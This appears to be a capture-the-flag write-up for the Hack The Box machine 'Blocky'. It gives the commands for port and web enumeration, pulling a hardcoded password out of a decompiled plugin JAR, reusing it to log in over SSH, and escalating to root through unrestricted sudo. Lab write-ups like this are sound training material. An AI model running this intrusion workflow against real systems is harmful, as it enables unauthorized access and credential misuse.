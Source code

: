 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

## 🛰️ Recon

### 🔍 Full TCP Port Scan
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.37
```
> Identifies ports 21 [FTP](FTP), 22 [SSH](SSH), 80 [HTTP](HTTP), and 25565 (Minecraft, closed).

### 🔍 Targeted Service Enumeration
```bash
nmap -p 21,22,80 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.37
```
> Finds FTP (ProFTPD 1.3.5a), SSH (OpenSSH 7.2p2), HTTP (Apache with WordPress 4.8).

---

## 🌐 Web & WordPress Enumeration

### 🧪 Directory Brute Force
```bash
gobuster dir -u http://10.10.10.37 \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x php -t 40 -o scans/gobuster-root-medium
```
> Discovers important directories: `/wp-login.php`, `/plugins/`, `/phpmyadmin`, `/wiki`.

### 🔍 WordPress Scan
```bash
wpscan --url http://10.10.10.37 -e ap,t,tt,u | tee scans/wpscan
```
> Finds:
- WP version: 4.8
- User: `notch`
- `/wp-content/uploads/` listing enabled
- `/xmlrpc.php` accessible

---

## 📦 Plugin Enumeration & JAR Analysis

### 🔽 Download Java JAR Files from `/plugins/`
> Found by visiting `/plugins` in browser.

### 🧪 Decompile with jd-gui (GUI tool)
```bash
# No command—GUI-based tool
```
> `BlockyCore.jar` contains hardcoded MySQL password:  
`8YsqfCTnvxAUeduzjNSXe22`

---

## 🔓 Shell as notch

### 🧪 Attempt SSH Login with Found Credentials
```bash
sshpass -p 8YsqfCTnvxAUeduzjNSXe22 ssh notch@10.10.10.37
```

### 📄 Capture User Flag
```bash
cat ~/user.txt
```

---

## 🪜 Privilege Escalation to root

### 🔍 Check sudo Rights
```bash
sudo -l
```
> notch can run **ALL commands as root**.

### 🔁 Elevate to Root
```bash
sudo su -
```

### 🏁 Capture Root Flag
```bash
cat /root/root.txt
```